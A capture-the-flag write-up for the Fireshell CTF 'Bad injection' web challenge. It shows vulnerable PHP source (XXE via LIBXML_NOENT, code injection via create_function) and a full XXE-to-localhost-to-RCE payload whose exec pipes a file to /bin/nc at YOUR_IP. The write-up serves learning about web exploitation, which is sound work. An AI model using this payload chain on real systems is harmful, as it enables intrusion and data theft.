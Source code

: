 # Bad injection [ [Fireshell CTF] ](https://ctftime.org/event/727)

## Enumerating the challenge 

![index](https://i.imgur.com/vtZ1BiQ.png)

looking at the first 3 pages available **home**, **about** and **contact**, nothing useful is presented to us. But, by accessing the **List** page, we got the icon of an "image
corrupted" next to the loaded image.

By analyzing the source of this page, it is possible to see a passage of parameters:

```
download?file=files/test.txt&hash=293d05cb2ced82858519bdec71a0354b

```

this is the "corrupted image". With these parameters, we can read any file on the server. The requirements are:

* the file path is accurate
* the **hash** parameter must contain the md5 of the searched file.

![listagem-diretorios](https://i.imgur.com/kVAupWz.png)


## Exploration

By scanning the server, we can find the file **Routes.php** inside **/app/** directory, where some http request is required.

    ...
    ...
    ...
    
    Route::set('custom',function(){
      $handler = fopen('php://input','r');
      $data = stream_get_contents($handler);
      if(strlen($data) > 1){
        Custom::Test($data);
      }else{
        Custom::createView('Custom');
      }
    });
    ...
    ...
    ...

and the **Custom.php** file in **/app/Controllers/** .

    <br />
    <b>Notice</b>:  Undefined variable: type in <b>/app/Controllers/Download.php</b> on line <b>21</b><br />
    <?php
    
    class Custom extends Controller{
      public static function Test($string){
          $root = simplexml_load_string($string,'SimpleXMLElement',LIBXML_NOENT);
          $test = $root->name;
          echo $test;
      }
    
    }
    
     ?>


using XXE, we can also return files from the server.

![xxe](https://i.imgur.com/5aKPJVP.png)

## Localhost bypass

on the **Routes.php** file above mentioned, you can also see the following code:

```
Route::set('admin',function(){
  if(!isset($_REQUEST['rss']) && !isset($_REQUES['order'])){
    Admin::createView('Admin');
  }else{
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1' || $_SERVER['REMOTE_ADDR'] == '::1'){
      Admin::sort($_REQUEST['rss'],$_REQUEST['order']);
    }else{
     echo ";(";
    }
  }
})
```

This code verifies if that the request comes from the localhost within a conditional structure. If it does, then call Admin::sort.

Looking at the **Admin.php** file (also downloaded enum the server), we can see that Admin::sort contains:

    usort($data, create_function('$a, $b', 'return strcmp($a->'.$order.',$b->'.$order.');'));


which gives us an obvious code injection.

---
that way, we need to use the XXE to bypass the verification of localhost and then make a request to /Admin, which returns us the remote code execution.

the payload:

    <?xml version="1.0" encoding="ISO-8859-1"?>
    <!DOCTYPE foo [
    <!ELEMENT foo ANY >
    <!ENTITY xxe SYSTEM "http://127.0.0.1/admin?rss=http://YOUR_IP/file.xml&order=link.file_get_contents('http://YOUR_IP/'.exec('cat'.chr(32).'/da0f72d5d79169971b62a479c34198e7'.chr(124).'/bin/nc'.chr(32).'YOUR_IP'.chr(32).'YOUR_PORT'))">
    ]>
    <root><name>&xxe;</name></root>

* the **file.xml** file must be uploaded to your server, with a valid rss with the route and adminsort for request.

the output:

![flag](https://i.imgur.com/FyBD4eq.png)

**Flag : f#{1_d0nt_kn0w_wh4t_i4m_d01ng}**

---

* [RSS W3schools](https://www.w3schools.com/xml/xml_rss.asp)
